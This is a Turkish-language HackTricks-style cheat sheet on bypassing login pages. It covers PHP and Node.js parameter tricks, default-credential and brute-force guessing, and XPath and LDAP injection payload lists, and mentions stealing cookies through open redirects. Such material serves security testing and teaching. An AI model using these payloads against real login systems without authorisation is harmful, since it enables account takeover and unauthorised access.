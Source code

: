 # Giriş Atlatma

{{#include ../../banners/hacktricks-training.md}}

## **Normal girişi atlatma**

Bir giriş sayfası bulursanız, bunu atlatmak için deneyebileceğiniz bazı teknikler burada:

- Sayfa içindeki **yorumları** kontrol edin (aşağı kaydırın ve sağa mı?)
- **Kısıtlı sayfalara doğrudan erişip erişemeyeceğinizi** kontrol edin
- **Parametreleri göndermemeyi** kontrol edin (hiç göndermeyin veya sadece 1 tane gönderin)
- **PHP karşılaştırma hatasını** kontrol edin: `user[]=a&pwd=b` , `user=a&pwd[]=b` , `user[]=a&pwd[]=b`
- **İçerik türünü json olarak değiştirin** ve json değerleri gönderin (bool true dahil)
- POST'un desteklenmediğini belirten bir yanıt alırsanız, **JSON'u gövdeye GET isteği ile** `Content-Type: application/json` ile göndermeyi deneyebilirsiniz
- Nodejs potansiyel ayrıştırma hatasını kontrol edin (okuyun [**bunu**](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)): `password[password]=1`
- Nodejs, bu yükü aşağıdaki gibi bir sorguya dönüştürecektir: ` SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` `` `**`password=password=1`**`;` bu da şifre bitinin her zaman doğru olmasını sağlar.
- Bir JSON nesnesi gönderebiliyorsanız, girişi atlatmak için `"password":{"password": 1}` gönderebilirsiniz.
- Bu girişi atlatmak için hala **geçerli bir kullanıcı adı bilmeniz ve göndermeniz gerektiğini** unutmayın.
- `mysql.createConnection` çağrısında **`"stringifyObjects":true`** seçeneğini eklemek, **`Object` parametre olarak geçirildiğinde tüm beklenmedik davranışları engelleyecektir.**
- Kimlik bilgilerini kontrol edin:
- Kullanılan teknoloji/platformun [**varsayılan kimlik bilgileri**](../../generic-hacking/brute-force.md#default-credentials)
- **Yaygın kombinasyonlar** (root, admin, password, teknolojinin adı, bu şifrelerden biriyle varsayılan kullanıcı).
- **Cewl** kullanarak bir sözlük oluşturun, **varsayılan** kullanıcı adı ve şifreyi (varsa) ekleyin ve tüm kelimeleri **kullanıcı adı ve şifre** olarak kullanarak brute-force deneyin.
- Daha büyük bir **sözlük** kullanarak **brute-force** yapın (**[**Brute force**](../../generic-hacking/brute-force.md#http-post-form)**)

### SQL Enjeksiyonu ile kimlik doğrulama atlatma

[Giriş atlatmak için **SQL enjeksiyonları** ile ilgili birkaç hile bulabilirsiniz](../sql-injection/index.html#authentication-bypass).

Aşağıdaki sayfada **SQL Enjeksiyonları** ile giriş atlatmak için **özel bir liste** bulabilirsiniz:

{{#ref}}
sql-login-bypass.md
{{#endref}}

### NoSQL Enjeksiyonu ile kimlik doğrulama atlatma

[Giriş atlatmak için **NoSQL Enjeksiyonları** ile ilgili birkaç hile bulabilirsiniz](../nosql-injection.md#basic-authentication-bypass)**.**

NoSQL Enjeksiyonları, parametre değerlerini değiştirmeyi gerektirdiğinden, bunları manuel olarak test etmeniz gerekecek.

### XPath Enjeksiyonu ile kimlik doğrulama atlatma

[Giriş atlatmak için **XPath Enjeksiyonu** ile ilgili birkaç hile bulabilirsiniz](../xpath-injection.md#authentication-bypass)
```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```
### LDAP Injection kimlik doğrulama atlatma

[Burada **LDAP Injection** ile giriş atlatmak için birkaç hile bulabilirsiniz.](../ldap-injection.md#login-bypass)
```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```
### Beni Hatırla

Eğer sayfada "**Beni Hatırla**" işlevi varsa, bunun nasıl uygulandığını kontrol edin ve bunu **diğer hesapları ele geçirmek** için kötüye kullanıp kullanamayacağınıza bakın.

### Yönlendirmeler

Sayfalar genellikle giriş yaptıktan sonra kullanıcıları yönlendirir, bu yönlendirmeyi değiştirebilir misiniz kontrol edin ve bir [**Açık Yönlendirme**](../open-redirect.md) oluşturun. Kullanıcıyı kendi web sitenize yönlendirirseniz bazı bilgileri (kodlar, çerezler...) çalabilirsiniz.

## Diğer Kontroller

- Giriş işlevini kötüye kullanarak **kullanıcı adlarını** **numaralandırabilir misiniz** kontrol edin.
- Şifre/**hassas** bilgiler **formları** için **otomatik tamamlama** aktif mi kontrol edin: `<input autocomplete="false">`

## Otomatik Araçlar

- [HTLogin](https://github.com/akinerkisa/HTLogin)



{{#include ../../banners/hacktricks-training.md}}
